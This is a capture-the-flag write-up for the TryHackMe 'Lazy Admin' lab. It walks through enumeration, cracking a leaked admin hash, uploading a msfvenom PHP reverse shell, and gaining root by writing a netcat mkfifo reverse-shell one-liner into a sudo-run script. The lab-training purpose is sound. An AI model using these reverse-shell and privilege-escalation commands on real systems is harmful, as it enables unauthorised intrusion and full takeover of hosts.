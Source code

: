 # Lazy Admin

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with nmap. This can be done with the command nmap -A -T4 <ip>.

![nmap](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/nmap.png)

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.2p2 and the server is an Apache server running on ubuntu. For further enumeration we can use ffuf with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

![fuzzing1](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing.png)

```/content``` seems interesting, so let's check it out. Hmm, that did not give us much.

![content](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/content.png)

Let's try fuzzing even deeper, we can do this with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/content/FUZZ"```

![fuzzing2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing2.png)

```/as``` seems interesting, so lets check it out, oh an admin panel. We could try to brute-force it, but let's continue searching to see if we can find anything else that might be interesting.

<insert image>

We can find an backup of an mysql database at ```<ip>/content/inc/mysql_backup```, lets try downloading it and opening it.

![sql](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql.png)

Here we can find both a username and an hashed password, maybe if we can crack the password we can use it to login to the admin panel.

![sql_pass](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql_pass.png)

I used ```https://crackstation.net/``` to crack the password.

![pass_cracked](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/pass_cracked.png)

Now we can log in to the admin panel. 

![admin](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/admin_panel.png)

## Getting a shell
Now that we have gotten into the admin panel, it's time to look for a way to get a shell. After looking around on the admin panel for a litte while I found an upload button, lets see if we can upload a reverse shell through the upload form. 

![upload](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/upload.png)

We can create an reverse shell with the command ```msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```. That worked. Now we can go to ```<ip>/content/attachment/shell.php5``` and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload php/meterpreter_reverse_tcp. Set the options LHOST <your ip> and LPORT <choosen port>.

![msf](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/msf.png)

That worked, we now have gotten into the computer.

![user](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/user.png)

## Privilege Escalation
Now that we have gotten into the computer it's time for privilege escalation, so let's do some enumeration. sudo -l shows us that we can use ```/user/bin/perl /home/itguy/backup.pl``` as root.

![priv_esc](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc.png)

Let's check out the ```/home/itguy/backup.pl``` file.

![priv_esc2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc2.png)

Ok, now lets check out the ```/etc/copy.sh``` file.

![priv_esc3](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc3.png)

It seems like most of the job is done for us. Let's change the ip to our ip. We can do this with ```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> 5554 >/tmp/f" > /etc/copy.sh```

We can now try to catch it with netcat on our computer with ```nc -nvlp 5554``` and then run the file with ```sudo /usr/bin/perl /home/itguy/backup.pl```

![root](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/root.png)

That worked, we have now root access on the machine.
